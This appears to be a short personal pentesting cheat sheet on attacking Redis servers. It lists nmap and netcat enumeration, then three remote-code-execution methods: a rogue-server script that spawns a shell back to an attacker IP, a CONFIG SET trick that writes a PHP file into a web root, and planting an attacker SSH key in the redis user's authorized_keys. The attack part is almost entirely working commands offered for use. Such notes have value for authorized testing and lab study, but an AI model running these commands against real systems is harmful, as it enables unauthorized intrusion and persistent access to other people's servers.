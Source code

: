 ```yaml
---
title: Notes | Redis
author: Zeropio
date: 2023-01-01
categories: [Notes, System]
permalink: /notes/system/redis
---
```


# Enumaration

We can use nmap for enumeration:
```console
zero@pio$ nmap <IP> -p6379 --script redis-info -sV
```

Banner grabbing:
```console
zero@pio$ nc -nv <IP> 6379
```

Or with `redis-cli`:
```console
zero@pio$ redis-cli -h <IP>
IP:6379>
```

Using `info` will display a bunch of information.

---

# Database

The databases can be enumerated:
```console
IP:6379> INFO keyspace
```

---

# RCE 

## Interactive Shell 

With [redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server) an easy shell can be spawned:
```console
$ python3 redis-rogue-server.py --rhost <TARGET_IP> --lhost <ATTACKER_IP>
```

## PHP Webshell

Uploading a file:
```console
IP:6379> config set dir /usr/share/apache2/
IP:6379> config set dbfilename redis.php
IP:6379> set test "<?php phpinfo(); ?>"
IP:6379> save
```

## SSH

First, create a new SSH key:
```console
zero@pio$ ssh-keygen -t rsa
zero@pio$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > spaced_key.txt
```

Send the key and configure it:
```console
zero@pio$ cat spaced_key.txt | redis-cli -h 10.85.0.52 -x set ssh_key
zero@pio$ redis-cli -h <IP>
IP:6379> config set dir /var/lib/redis/.ssh
IP:6379> config set dbfilename "authorized_keys"
IP:6379> save
```

And now we can enter as `ssh -i id_rsa redis@<IP>`.


